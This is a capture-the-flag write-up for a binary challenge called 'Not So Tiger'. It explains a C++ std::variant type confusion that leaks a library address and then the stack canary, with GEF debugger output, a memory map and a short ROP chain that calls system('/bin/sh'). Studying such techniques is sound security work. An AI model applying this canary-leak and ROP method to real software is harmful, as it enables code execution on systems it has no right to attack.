 # Not So Tiger

This challenge is a C++ type confusion using `std::variant`.

There are three stack buffer overflows: One when giving a new cat a name, and another when changing a cat's name, and another in the strcpy in the `set` method for the two cats that have fixed-length char arrays for the name.

The problem is there are stack canaries, so we need to leak the canary in order to be able to smash the stack and do ROP.

Ocelot looks like this:

```
  long age;
  char name[0x20];
```

Bengal looks like this:

```
  char *name;
  long age;
```

From reversing the binary, we see that the std::variant leaves 0x28 bytes for the (largest possible) type itself, and then at offset 0x28 is the index of the class (0 = Bengal, 1 = Ocicat, 2 = Ocelot, 3 = Savannah -- this is just from the order of the types in the std::variant<...> declaration). 


We come up with the following scenario for a leak:

1. Create an Ocelot with 'age' being a pointer to somewhere we want to leak
2. Use the overflow caused by the strcpy of the name in Ocelot's `set` method to overwrite the type index on the std::varaint to be '0' (a Bengal)
3. Read from the Cat...  `char *name` will have the same value as the `age` we controlled... This gives us an leak.


What do we want to leak? In GEF I literally just did the following to see where the canary is in memory:

```
gef➤  canary
[+] Found AT_RANDOM at 0x7fffffffe679, reading 8 bytes
[+] The canary of process 14665 is 0xbd4cbc2d915d3500
gef➤  search-pattern 0xbd4cbc2d915d3500
[+] Searching '\x00\x35\x5d\x91\x2d\xbc\x4c\xbd' in memory
[+] In (0x7ffff7a70000-0x7ffff7a74000), permission=rw-
  0x7ffff7a72f68 - 0x7ffff7a72f88  →   "\x00\x35\x5d\x91\x2d\xbc\x4c\xbd[...]" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffe258 - 0x7fffffffe278  →   "\x00\x35\x5d\x91\x2d\xbc\x4c\xbd[...]" 
  0x7fffffffe328 - 0x7fffffffe348  →   "\x00\x35\x5d\x91\x2d\xbc\x4c\xbd[...]" 
gef➤  
```

0x7ffff7a72f68 is in this RW section that is unlabeled but appears to be immediately before the other libraries. 

```
          Start Addr           End Addr       Size     Offset objfile
            0x400000           0x401000     0x1000        0x0 /home/andrew/cake/no-so-tiger/not_so_tiger/chall
            0x401000           0x404000     0x3000     0x1000 /home/andrew/cake/no-so-tiger/not_so_tiger/chall
            0x404000           0x406000     0x2000     0x4000 /home/andrew/cake/no-so-tiger/not_so_tiger/chall
            0x407000           0x408000     0x1000     0x6000 /home/andrew/cake/no-so-tiger/not_so_tiger/chall
            0x408000           0x409000     0x1000     0x7000 /home/andrew/cake/no-so-tiger/not_so_tiger/chall
            0x409000           0x42a000    0x21000        0x0 [heap]
      0x7ffff7a70000     0x7ffff7a74000     0x4000        0x0 
      0x7ffff7a74000     0x7ffff7a77000     0x3000        0x0 /usr/lib/x86_64-linux-gnu/libgcc_s.so.1
      0x7ffff7a77000     0x7ffff7a89000    0x12000     0x3000 /usr/lib/x86_64-linux-gnu/libgcc_s.so.1
      0x7ffff7a89000     0x7ffff7a8d000     0x4000    0x15000 /usr/lib/x86_64-linux-gnu/libgcc_s.so.1
      0x7ffff7a8d000     0x7ffff7a8e000     0x1000    0x18000 /usr/lib/x86_64-linux-gnu/libgcc_s.so.1
      0x7ffff7a8e000     0x7ffff7a8f000     0x1000    0x19000 /usr/lib/x86_64-linux-gnu/libgcc_s.so.1
      0x7ffff7a8f000     0x7ffff7a9e000     0xf000        0x0 /usr/lib/x86_64-linux-gnu/libm-2.31.so
      0x7ffff7a9e000     0x7ffff7b45000    0xa7000     0xf000 /usr/lib/x86_64-linux-gnu/libm-2.31.so
      0x7ffff7b45000     0x7ffff7bdc000    0x97000    0xb6000 /usr/lib/x86_64-linux-gnu/libm-2.31.so
      0x7ffff7bdc000     0x7ffff7bdd000     0x1000   0x14c000 /usr/lib/x86_64-linux-gnu/libm-2.31.so
      0x7ffff7bdd000     0x7ffff7bde000     0x1000   0x14d000 /usr/lib/x86_64-linux-gnu/libm-2.31.so
      0x7ffff7bde000     0x7ffff7c03000    0x25000        0x0 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7c03000     0x7ffff7d7b000   0x178000    0x25000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7d7b000     0x7ffff7dc5000    0x4a000   0x19d000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7dc5000     0x7ffff7dc6000     0x1000   0x1e7000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7dc6000     0x7ffff7dc9000     0x3000   0x1e7000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7dc9000     0x7ffff7dcc000     0x3000   0x1ea000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
      0x7ffff7dcc000     0x7ffff7dd0000     0x4000        0x0 
      0x7ffff7dd0000     0x7ffff7e66000    0x96000        0x0 /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.28
      0x7ffff7e66000     0x7ffff7f57000    0xf1000    0x96000 /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.28
      0x7ffff7f57000     0x7ffff7fa0000    0x49000   0x187000 /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.28
      0x7ffff7fa0000     0x7ffff7fa1000     0x1000   0x1d0000 /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.28
      0x7ffff7fa1000     0x7ffff7fac000     0xb000   0x1d0000 /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.28
      0x7ffff7fac000     0x7ffff7faf000     0x3000   0x1db000 /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.28
      0x7ffff7faf000     0x7ffff7fb4000     0x5000        0x0 
      0x7ffff7fc9000     0x7ffff7fcd000     0x4000        0x0 [vvar]
      0x7ffff7fcd000     0x7ffff7fcf000     0x2000        0x0 [vdso]
      0x7ffff7fcf000     0x7ffff7fd0000     0x1000        0x0 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7fd0000     0x7ffff7ff3000    0x23000     0x1000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7ff3000     0x7ffff7ffb000     0x8000    0x24000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7ffc000     0x7ffff7ffd000     0x1000    0x2c000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7ffd000     0x7ffff7ffe000     0x1000    0x2d000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
      0x7ffff7ffe000     0x7ffff7fff000     0x1000        0x0 
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]
```

But we assume ASLR is on so we need to leak some library address and then add the right offset to compute the address of the canary. (*Then* we can actually leak the canary itself).

I found some random stdlibc++ address at 0x407cf0, and address offsets were determined experimentally by attaching GDB and printing out the address of the canary and the address I was able to leak. 

After I leaked the canary (byte by byte, in case there were any newlines or nulls), it was time to ROP.

We already have a libc-leak so just compute some more offsets to get a `system` address and a "/bin/sh" address. The ROP itself is simple:

```
rop += p64(0x0000000000403a33) # pop rdi; ret
rop += p64(bin_sh_addr)
rop += p64(0x403a34) # ret; (for alignment)
rop += p64(system_addr)
```

See solve-cats.py
